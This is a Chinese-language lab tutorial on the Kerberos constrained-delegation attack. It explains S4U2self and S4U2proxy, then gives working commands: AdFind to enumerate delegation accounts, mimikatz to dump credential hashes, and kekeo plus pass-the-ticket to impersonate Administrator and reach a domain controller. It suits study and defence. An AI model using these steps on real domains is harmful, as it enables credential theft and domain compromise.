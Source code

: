# 约束性委派攻击

- Widnows Server 2003 之后微软引入了非约束委派。由于非约束委派的不安全性或者场景受限(配置了非约束委派的机器在 LSASS 中缓存了用户的 TGT 票据可模拟用户去访问域中任意服务)，微软于2007年为 Kerberos协议进行扩展引入S4U(service for user)协议，该协议分为两个子协议，即S4U2self和S4U2proxy

![image-20240626092650370](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626092650370.png)

- 约束性委派攻击流程：用户(A)访问WEB系统(B),B代表A去向KDC申请访问B的TGT和ST1(使用S4u2self),用户A拿到了ST1就可以访问B了，如果在B上配置了约束性委派(A到C的约束委派)，则B能够使用S4U2Proxy协议将用户发给自己的可转发的ST1票据以用户的身份发给KDC，KDC返回B一个访问C的票据ST2，这样B就可以以用户的身份访问C

  ![image-20240626151440846](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626151440846.png)

  ```
  1.通过NTLM或者其他认证
  2.B代表A申请A访问B的票据(TGT和ST1)
  3.KDC返回用户的TGT和ST1票据给B
  4.B把ST1票据给A
  5.A用ST1去访问B
  6.B拿着A的ST1作为证据，去申请访问C的ST2
  7.B用ST2票据访问C
  ```

- 实验场景：

| 机器位置 | IP              | 机器名称        | 登录用户           | 所属域   | 委派位置   |
| -------- | --------------- | --------------- | ------------------ | -------- | ---------- |
| 域控     | 192.168.211.10  | WIN-E0TAL57RCAA | HECK\administrator | heck.com | 域控       |
| 域内机   | 192.168.211.201 | PC-2016         | HECK\zz            | heck.com | 约束性委派 |

- 约束性委派配置：(只能访问特定机器的特定服务)

![image-20240626151034976](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626151034976.png)

- 实验前提：已控制一台约束性委派的机器，并且可以获取该机器用户的hash值

### 实验过程

- 查票清票清除干扰。

```
查票：shell klist
清票：shell klist purge
```

- 查询约束性委派的机器和用户，可以看到只配置了域控和PC-2003的cifs服务的约束性委派。

```
  查询约束委派机器账户:
AdFind.exe -b "DC=heck,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
  查询约束委派服务账户:
AdFind.exe -b "DC=heck,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cndistinguishedName msds-allowedtodelegateto
```

![image-20240626153302049](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626153302049.png)

- 使用mimikatz抓取机器账户的hash（需要提权）

```
mimikatz sekurlsa::logonpasswords
```

![image-20240626154606984](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626154606984.png)

- 使用kekeo申请配置了约束性委派机器账户PC-2016$的TGT

```
kekeo.exe "tgt::ask /user:PC-2016$ /NTLM:16b3980e9d11ae4ff77f2e6582781958 /domain:heck.com" "exit"
```

![image-20240626155701008](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626155701008.png)

- 查看桌面可以看到生成的PC-2016$的TGT。

  ![image-20240626160234737](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626160234737.png)

- 利用TGT通过伪造S4U请求以Administrator身份访问PC-2016的ST，执行完毕后可以看到生成的伪造的Administrator的ST1和访问域控的ST2(利用ST1生成的)。

```
kekeo.exe "tgs::s4u /tgt:TGT_PC-2016$@HECK.COM_krbtgt~heck.com@HECK.COM.kirbi /user:Administrator@heck.com /service:cifs/WIN-E0TAL57RCAA.heck.com" "exit"
```

![image-20240626160553711](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626160553711.png)

- 使用mimikatz把ST2注入内存

```
mimikatz kerberos::ptt TGS_Administrator@heck.com@HECK.COM_cifs~WIN-E0TAL57RCAA.heck.com@HECK.COM.kirbi
```

![image-20240626161107714](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626161107714.png)

- 访问域控

  ![image-20240626161240330](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626161240330.png)

- 但是只能利用cifs服务进行访问，其他服务没有权限。如果约束性委派配置了其他的服务则可以利用其他服务进行攻击。

![image-20240626171058365](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240626171058365.png)